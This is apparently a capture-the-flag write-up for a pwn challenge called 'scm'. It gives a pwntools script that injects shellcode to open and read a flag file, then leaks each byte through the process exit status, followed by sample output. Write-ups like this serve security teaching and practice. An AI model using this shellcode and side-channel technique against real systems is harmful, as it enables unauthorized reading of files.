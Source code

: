 # scm (pwn)

Brute-force each char based on status code leak:

```py
from pwn import *
context.log_level = 'error'
count = 0
while True:
    p = remote("chals.damctf.xyz", 30200)
    context.arch = "amd64"
    shellcode = f'''
    mov rax,0x2
    mov r12, 0x00000067616c66
    push r12
    mov rdi,rsp
    mov rsi,0x0
    mov rdx,0x0
    syscall
    mov rdi,rax
    mov rax,0x0
    mov rsi,rsp
    mov rdx,100
    syscall
    mov rdi, [rsp+{count}]
    mov rax,60
    syscall
    '''
    p.recvuntil(b":")
    p.sendline(b"1")
    p.sendline(b"1")
    p.sendline(b"98")

    p.send(asm(shellcode))
    p.sendline(b"2")
    p.sendline(b"0")
    p.sendline(b"y")
    p.sendline(b"65281")
    p.sendline(b"n")
    p.sendline(b"3")
    p.sendline(b"0")
    p.recvuntil(b"status code ")
    STATUS = p.recvline()
    print(hex(int(STATUS.decode())))
    p.close()
    count += 1
```

This prints each flag char as hex chars:
```
0x6400
0x6100
0x6d00
...
0x7d00
```
making it easy to decode the flag.
